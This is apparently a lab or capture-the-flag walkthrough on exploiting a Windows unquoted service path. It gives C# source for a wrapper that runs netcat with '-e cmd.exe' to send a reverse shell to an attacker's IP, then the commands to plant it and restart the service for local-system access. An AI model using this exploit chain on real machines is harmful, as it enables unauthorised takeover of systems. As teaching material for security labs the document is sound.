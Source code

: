 With the unquoted service path, all we need is one very small "wrapper" program that activates the netcat binary that we _already have on the target_

To put it another way, we just need to write a small executable that executes a system command: activating netcat and sending us a reverse shell as the owner of the service (i.e. local system)

We will use `mono` to compile.

`sudo apt install mono-devel`

---

First create a file called Wrapper.cs in a text editor


The first thing we need to do is add our "imports". These allow us to use pre-defined code from other "namespaces" -- essentially giving us access to some basic functions (e.g. input/output). At the very top if the file, add the following lines:  
`using System;  
using System.Diagnostics;  
`  

These allow us to start new processes (i.e. execute netcat).

Next we need to initialise a namespace and class for the program:  
`namespace Wrapper{  
    class Program{  
        static void Main(){  
            //Our code will go here!  
        }  
    }  
}`  

We can now write the code that will call netcat. This goes inside the `Main()` function (replacing the `//Our code will go here!` line).

First, we create a new process, as well as a ProcessStartInfo object to set the parameters for the process:  
`Process proc = new Process();  
ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-USERNAME.exe", "ATTACKER_IP ATTACKER_PORT -e cmd.exe");`  

_Make sure to replace the_ `nc-USERNAME.exe` _with the name of your own netcat executable, as well as slotting in your own IP and Port!_

With the objects created, we can now configure the process to not create it's own GUI Window when starting:  
`procInfo.CreateNoWindow = true;`  

Finally, we attach the `ProcessStartInfo` object to the process, and start the process!  
`proc.StartInfo = procInfo;  
proc.Start();`

End product:

```cs
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-k.exe", "10.50.101.>
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```


We now have a Wrapper.exe
Next we need to get the exe on .100, create a listener, then run Wrapper.exe

---

Unquoted service path vulnerabilities occur due to a very interesting aspect of how Windows looks for files. If a path in Windows contains spaces and is not surrounded by quotes (e.g. `C:\Directory One\Directory Two\Executable.exe` ) then Windows will look for the executable in the following order:

1.  `C:\Directory.exe`
2.  `C:\Directory One\Directory.exe`
3.  `C:\Directory One\Directory Two\Executable.exe`

What this means is that if we can create a file called `Directory.exe` in the root directory, or `C:\Directory One\`, then we can trick Windows into executing our file instead!


Let's take a look at the actual path of our vulnerable service: `C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe`. There are technically three places we _could_ add our program here:

-   We could put it in the root directory and call it `Program.exe`. This is _very_ unlikely to work, as the chances of having write permissions here are virtually 0.
-   We could put it in the `C:\Program Files (x86)\` directory and call it `System.exe`. Once again, this is unlikely to work because the chances of being able to write into `C:\Program Files (x86)\` are minimal.
-   We could put it in `C:\Program Files (x86)\System Explorer\` and call it `System.exe`. This one will work! Remember we checked the permissions of this directory in the last task and found that we had full access? This means that we can place our wrapper into this directory, then when the service is restarted, our wrapper will be executed giving us a shell as the local system user!

`copy %TEMP%\wrapper-USERNAME.exe "C:\Program Files (x86)\System Explorer\System.exe"`

---

Start a new nc listener

We now need to stop and start the vulnerable service

`sc stop SystemExplorerHelpService`
`sc start SystemExplorerHelpService`

We should now have root!